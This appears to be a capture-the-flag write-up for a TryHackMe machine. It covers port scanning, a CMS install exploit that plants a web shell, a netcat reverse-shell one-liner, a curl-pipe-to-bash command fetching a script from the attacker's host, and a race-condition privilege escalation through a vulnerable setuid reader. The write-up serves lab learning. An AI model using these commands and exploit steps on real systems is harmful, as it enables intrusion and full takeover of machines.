 # 55 - toc2 (race condition exploitation)

Room Link --> [https://tryhackme.com/dashboard](https://tryhackme.com/dashboard)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ nmap -Pn -n -v 10.10.136.233 -p- -T5

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
{% endcode %}

On the website main page, there is a note:

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`cmsmsuser:devpass`  - the dev left his credentials there.

The `robots.txt` page.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Searched online for an exploit and got [this](https://www.exploit-db.com/exploits/44192)

#### Exploitation

Proceed as stated in the exploit POC, when we get to step 4, we intercept the traffic with burpsuite and modify the `timezone` parameter.

The dbmane is also on the `robots.txt` page.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And done, we goto the path:

`http://10.10.136.233/cmsms/config.php?cmd=id;uname` - we have RCE.



<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

Getting reverse shell, i used

‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.88.214 9000 >/tmp/f’, save it in a \`shell.sh\` file, then \`curl [http://10.18.88.214/shell.sh](http://10.18.88.214/shell.sh) | bash\` on the cmd paprameter.

<figure><img src=".gitbook/assets/image (385).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Frank

There is a `new_machine.txt` file in Frank home directory. It contained a password, so i tried it for Frank and it worked.

### Priv Esc to Root

There is a `readcreds.c` file that seems to be vulnerable to `Race Condition` attack.

{% code overflow="wrap" lineNumbers="true" %}
```c
frank@toc:~/root_access$ ./readcreds readcreds.c
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>

int main(int argc, char* argv[]) {
    int file_data; char buffer[256]; int size = 0;

    if(argc != 2) {
        printf("Binary to output the contents of credentials file \n ./readcreds [file] \n"); 
	exit(1);
    }

    if (!access(argv[1],R_OK)) {
	    sleep(1);
	    file_data = open(argv[1], O_RDONLY);
    } else {
	    fprintf(stderr, "Cannot open %s \n", argv[1]);
	    exit(1);
    }

    do {
        size = read(file_data, buffer, 256);
        write(1, buffer, size);
    } 
    
    while(size>0);
}
```
{% endcode %}

WATCH this video if you are not familiar with race conditions

[https://www.youtube.com/watch?v=5g137gsB9Wk](https://www.youtube.com/watch?v=5g137gsB9Wk)

Download the `rename.c`  binary used for the exploitation: https://github.com/sroettger/35c3ctf\_chals/blob/master/logrotate/exploit/rename.c

You’ll need to compile this C file first.

Create a blank file to use as one of these two arguments. I just `touch asd` , and execute it with `root_password_backup` as an argument `./rename root_password_backup asd` _._ You will see the terminal hang… this is normal.

We can now ssh as Frank in another terminal or background the process. let’s try to run the _readcreds_ binary with our file we want to read. At first we may not be able to open, but keep pounding up and enter until eventually we hit our permissions and cat the file.

<figure><img src=".gitbook/assets/image (386).png" alt=""><figcaption></figcaption></figure>

`su root`&#x20;

Done!

